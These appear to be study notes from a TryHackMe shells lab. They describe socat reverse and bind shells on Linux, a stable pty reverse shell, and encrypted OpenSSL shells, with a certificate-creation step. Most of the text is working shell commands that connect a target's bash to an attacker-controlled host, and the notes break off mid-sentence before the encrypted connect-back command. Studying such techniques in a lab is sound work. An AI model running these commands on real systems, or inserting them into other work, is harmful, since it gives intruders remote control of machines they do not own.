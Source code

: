 This is on a linux target machine:
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

Here you can find the socat commands for bind shell: tryhackme.com/r/room/introtoshells

In any case we use this on the attacker machine to bind to a shell on the target:

```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### Powerful and stable Linux reverse shell using socat

    Command to setup the listener on the attacker machine:

    ```
    socat TCP-L:<port> FILE:`tty`,raw,echo=0
    ```
    We are connecting two endpoints together, one listening on <port> and a file
    we are passing our current tty as a file and setting the echo to zero. 

Now on the target machine we need to send this as payload to connect to it, after
having sent a socat binary some other way:

```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

```

Having done this we are goood to go. If something is weird try adding a debug mode 
to the code used on the target machine.

### Encrypted bind and reverse shell

Socat is so great that we can also create encrytped shells! Both bind and reverse!
Just replace TCP with OPENSSL on the previous commands.

First we need to setup some certificates:

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
This will create a 2048bit RSA key with matching cert file, self-signed and valid for just under one year, lets merge both into a .pem file:

```
cat whatever.key whatever2.crt > whatever3.pem
```
Now, after having sent both the .pem file and the socat binary to the target machine, 
we can setup a listener:

```
socat OPENSSL-LISTEN:<<port-number>>,cert=whatever.pem,verify=0 FILE:`tty`,raw,echo=0

```
Then on the target we can connect back like this, 
